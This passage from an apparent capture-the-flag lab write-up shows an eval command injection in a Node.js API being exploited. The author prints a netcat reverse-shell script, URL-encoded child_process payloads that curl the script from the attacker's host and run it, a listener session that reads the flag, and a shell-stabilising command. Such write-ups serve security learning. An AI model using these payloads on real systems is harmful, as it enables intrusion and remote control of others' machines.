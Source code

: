 This is very interesting. It looks like the code is trying to eval the command I'm passing it. So I can use this to run any JS code I want, and probably open a reverse shell. 

I found some examples of [Node reverse shell online](https://riyazwalikar.wordpress.com/2016/08/23/nodejs-rce-and-a-simple-reverse-shell/), but I could not get them to work. The API would return a message saying the vulnerability was exploited, but I would not get the reverse shell. I was able to use nc to connect back to my machine, but not using sh. 

In the end I created a file with a bash reverse shell. 

```bash
$ cat rev.sh 
mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg
```

And started a web server in my Kali box.
```bash
$ sudo python3 -m http.server 80
[sudo] password for ehogue: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then I use the vulnerability to execute two commands on the server: download the file and execute it.

```
# Download the file
POST /api/items?cmd=require(%22child_process%22).exec(%22curl%2010.13.3.36/rev.sh%20%3E%20/tmp/rev.sh%22)

# Execute it to open the reverse shell
POST /api/items?cmd=require(%22child_process%22).exec(%22/bin/sh%20/tmp/rev.sh%22) HTTP/1.1
```

I finally got my reverse shell, and the user flag.

```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.70.208 57468

whoami
user

ls /home/user
user.txt

cat /home/user/user.txt
THM{USER_FLAG}
```

## Lateral Movement
Now that I was logged on the machine, the first thing I did was to solidify my shell. 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
